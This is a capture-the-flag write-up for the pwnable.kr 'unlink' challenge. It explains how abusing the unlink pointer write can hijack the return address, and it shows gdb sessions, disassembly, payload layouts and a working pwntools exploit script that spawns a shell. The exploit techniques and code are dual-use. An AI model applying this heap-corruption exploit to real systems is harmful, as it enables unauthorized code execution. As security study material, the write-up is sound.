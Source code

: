 # Unlink

Consider the `unlink` code:

```c
void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
```

If we have control over `P` we can essentialy get the following write primitive: for two pointers `p1` and `p2`, we can preform:

```c
/**
 * Notice that p1 is P->bk and p2 is P->fd.
 */
void **p1
void **p2;
*p1 = p2;
*(p2 + 1) = p1;
```

Now, if `p1` is the location of the saved `eip` on the stack, we can let `p2` point to `shell` and win, right?

Lets try in `gdb` first - the address of `shell` is `0x080484eb`, and the address of `eip` on the stack is `0xfff241dc`. We can also see that the address `B` on the heap is `0x09cc4428`. Lets try to set `B->fd` and `B->bk` manually:

```text
# Set a breakpoint at unlink...
# Setting B->fd to be the of the shell function.
(gdb) set {unsigned int}0x08c6b428 = 0x080484eb
# Setting B->bk to be the address of eip on the stack.
(gdb) set {unsigned int}0x08c6b428 = 0xfff241dc
```

Now lets try to continue:

```text
Program received signal SIGSEGV, Segmentation fault.
0x08048521 in unlink ()
```

Hmm... Well, we kinda saw it coming, didnt we? We are trying to write to the code of `shell`, will obviously fail. We can see that in the dump:

```text
(gdb) disas 0x08048521
Dump of assembler code for function unlink:
   0x08048504 <+0>:     push   %ebp
   0x08048505 <+1>:     mov    %esp,%ebp
   0x08048507 <+3>:     sub    $0x10,%esp
   0x0804850a <+6>:     mov    0x8(%ebp),%eax
   0x0804850d <+9>:     mov    0x4(%eax),%eax
   0x08048510 <+12>:    mov    %eax,-0x4(%ebp)
   0x08048513 <+15>:    mov    0x8(%ebp),%eax
   0x08048516 <+18>:    mov    (%eax),%eax
   0x08048518 <+20>:    mov    %eax,-0x8(%ebp)
   0x0804851b <+23>:    mov    -0x8(%ebp),%eax
   0x0804851e <+26>:    mov    -0x4(%ebp),%edx
=> 0x08048521 <+29>:    mov    %edx,0x4(%eax)
   0x08048524 <+32>:    mov    -0x4(%ebp),%eax
   0x08048527 <+35>:    mov    -0x8(%ebp),%edx
   0x0804852a <+38>:    mov    %edx,(%eax)
   0x0804852c <+40>:    nop
   0x0804852d <+41>:    leave
   0x0804852e <+42>:    ret
End of assembler dump.
```
We see we got the `SEGV` when we tried to write to the code `shell`.

New idea: we need the memory that we write to actually be writeable, so we'll just use the heap! We'll a payload of this sort:

```text
+-----------+---------+-----------+-----------+---------+---------+---------+
| 2 bytes   | 2 bytes | 4 bytes   | 5 bytes   | 3 bytes | 4 bytes | 4 bytes |
+-----------+---------+-----------+-----------+---------+---------+---------+
| short jmp | unused  | overidden | jmp shell | unused  | pl addr | ip addr |
+-----------+---------+-----------+-----------+---------+---------+---------+
```
Where the `overriden` part is overriden by `unlink`.

Now for some fun offsets calculations! Using `gdb`, we see that if `A` is `0x0878f410`, then `B` is `0x0878f428`, which means `&(A->buf)` is `0x0878f418` and that the we have 16 bytes to work with. Seems alright!

And for out payload:
* we need a short jump, that is `\xeb\x06` - jumping 6 byte into the future, over the bytes overriden by `unlink`.
* We have 2 unused bytes: `\x90\x90`.
* Another 4 unused bytes: `\x90\x90\x90\x90`.
* A jump to the `shell` function: `\xe9<offset_to_shell>` - we can get that from the heap address leak (remembering that the address of `shell` is `0x080484eb`, and that we are `21` bytes away from the heap address leak).
* Another 3 unused bytes: `\x90\x90\x90`.
* Payload address - we get it from the heap address leak (`+8` for `fd` and `bk`).
* Saved `eip` address on the stack - we get it from the stack address leak (`-24` from testing with `gdb`).
* Dont forget endiannes!

Seems to be good, lets give it a try! Trying with `gdb` first, just to check how things are going...

```text
# A lot of setting up, lets look at the shellcode we put on the heap:
(gdb) x/i 0xa049418
   0xa049418:   jmp    0xa049420
(gdb) x/i 0xa049420
   0xa049420:   jmp    0x80484eb <shell>
# seems good!
```

Continue... and we get another `SEGV`! This entire time the heap was non-executable (NX). Well. This sucks. I have no idea how to pass this. Let's dig in deeper!

Hmm... this piece of code seems really unusual:

```text
(gdb) disas main
   0x0804852f <+0>:     lea    0x4(%esp),%ecx
   0x08048533 <+4>:     and    $0xfffffff0,%esp
   0x08048536 <+7>:     pushl  -0x4(%ecx)
   0x08048539 <+10>:    push   %ebp
   0x0804853a <+11>:    mov    %esp,%ebp
   0x0804853c <+13>:    push   %ecx
   [lots of code...]
   0x080485f2 <+195>:   call   0x8048504 <unlink>
   0x080485f7 <+200>:   add    $0x10,%esp
   0x080485fa <+203>:   mov    $0x0,%eax
   0x080485ff <+208>:   mov    -0x4(%ebp),%ecx
   0x08048602 <+211>:   leave
   0x08048603 <+212>:   lea    -0x4(%ecx),%esp
   0x08048606 <+215>:   ret
End of assembler dump.
```

Lets follow the flow of this weird code. Suppose the return address for main was stored on the stack in `0x1337`, and therefore `esp` is `0x1333`.

* In `+0`, we set `ecx` to the address of the return address on the stack, that is, `0x1337`.
* We do some stuff, and in `+13`, this value is push onto stack again, suppose to `0x420`.
* We execute the code of `main`.
* In `+208`, we move the address stored in `0x420` stack address to `ecx`.
* In `+212` we fix `esp`, and in `+215` we `ret`, which means we move the return address stored in `(%ecx)` to `eip`.

Where can we step in? Of course, if we override `0x420` to point to a place the heap, which in turn also points to the address of `shell`, we win! And we wont have any problems since both the stack and the heap are writeable, and were not trying to execute any code out of the `.text` segment.

So our payload will look something like this:

```text
+----------+---------+---------+------------+
| 16 bytes | 4 bytes | 4 bytes | 4 bytes    |
+----------+---------+---------+------------+
| unused   | &shell  | st addr | shell addr |
+----------+---------+---------+------------+
```

* 16 unused bytes.
* The place we saved the address of `shell` - we get it from heap address leak (`+0x24`).
* The stack address we need to redirect - we get it from the stack address leak (`+10`, using `gdb`).
* The address of `shell` - `0x80484eb`.

Lets put together a quick `pwntools` solution:

```python
import re

from pwn import *

ssh_conn = ssh(
    'unlink',
    'pwnable.kr',
    2222,
    'guest'
)

HEXNUM_RE = re.compile(r'0x[0-9a-f]+')
GET_SHELL_STRING = 'now that you have leaks, get shell!'
SHELL_FUNC = 0x80484eb

unlink_ps = ssh_conn.process(['./unlink'])

data = unlink_ps.recvuntil(GET_SHELL_STRING)

stack, heap = (int(hexstr, 16) for hexstr in re.findall(HEXNUM_RE, data))
print '[+] stack address - {stack}'.format(stack=hex(stack))
print '[+] heap address - {heap}'.format(heap=hex(heap))

unlink_ps.send('A'*16 + p32(heap+0x24) + p32(stack+0x10) + p32(SHELL_FUNC))
unlink_ps.interactive()
```

And lo and behold, it works!
